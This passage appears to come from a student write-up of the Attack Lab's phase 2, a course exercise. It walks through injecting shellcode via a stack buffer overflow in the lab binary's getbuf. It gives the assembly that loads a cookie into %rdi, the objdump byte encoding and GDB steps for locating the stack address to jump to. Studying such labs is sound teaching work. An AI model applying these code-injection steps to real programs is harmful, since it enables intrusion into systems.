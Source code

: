 ```
   0x00005555555559e6 <+83>:	callq  0x555555555db6 <validate>
   0x00005555555559eb <+88>:	jmp    0x5555555559c6 <touch2+51>
End of assembler dump.
```

Our goal is to modify the %rdi register and store the cookie in it. We need some assembly code for the task.

Create a file called atk2.s and write the code below with your own cookie

```
movq $0x5f5bd74e,%rdi           /* move the cookie into register %rdi */
retq                             /* return */
```

Now we need the byte representation of the code above. Compile it with gcc then dissasemble it

```shell
gcc -c atk2.s
objdump -d atk2.o
```

 Then we get codes like below

```
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 4e d7 5b 5f 	mov    $0x5f5bd74e,%rdi
   7:	c3                   	retq  
```

In order to execute our code, we need to find the address of %rsp(the start address of our input) and replace the address in the return statement with it. We can use GDB to find the address of %rsp 

```
gdb ctarget
(gdb) break getbuf
(gdb) run -q
```

Now do `disas` and we can get

```
Dump of assembler code for function getbuf:
=> 0x000055555555594f <+0>:	sub    $0x18,%rsp
   0x0000555555555953 <+4>:	mov    %rsp,%rdi
   0x0000555555555956 <+7>:	callq  0x555555555b9f <Gets>
   0x000055555555595b <+12>:	mov    $0x1,%eax
   0x0000555555555960 <+17>:	add    $0x18,%rsp
   0x0000555555555964 <+21>:	retq   
End of assembler dump.
```

We need to run the code until the instruction just below `callq  0x555555555b9f <Gets>` . Use `until *addr`

```
until *0x000055555555595b
```
